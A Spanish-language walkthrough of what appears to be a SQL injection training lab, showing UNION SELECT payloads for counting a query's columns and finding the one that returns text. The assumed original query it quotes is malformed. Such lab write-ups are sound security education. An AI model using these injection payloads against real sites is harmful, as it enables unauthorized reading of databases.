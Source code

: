 ## Objetivo:

![[Pasted image 20240622152010.png]]

## Solución:

Seleccionamos una categoria

![[Pasted image 20240622152033.png]]


Suponiendo que la query esta asi
```
SELECT * FROM categories FROM category 'prueba';
```

Primero trataremos de averiguar cuantas columnas tiene dicha query utilizando ataque de tipo UNION

```
' UNION SELECT NULL, NULL--
```

![[Pasted image 20240622152344.png]]

```
' UNION SELECT NULL, NULL, NULL--
```

Vemos que tiene 3

![[Pasted image 20240622152414.png]]

Ahora para saber el tipo de dato que devuelve dicha columna intentaremos de la siguiente manera

```
' UNION SELECT 'a', NULL, NULL--
' UNION SELECT NULL, 'a', NULL--
' UNION SELECT NULL, NULL, 'a'--
```

Siempre basandonos en el mensaje de error

![[Pasted image 20240622152538.png]]

Y como vemos en es la columna 2

![[Pasted image 20240622152603.png]]

Ahora como vemos en la prueba me dicen que tengo que usar el string "twQctj"... Entonces quitaremos la letra "a" y usaremos ese

![[Pasted image 20240622152644.png]]

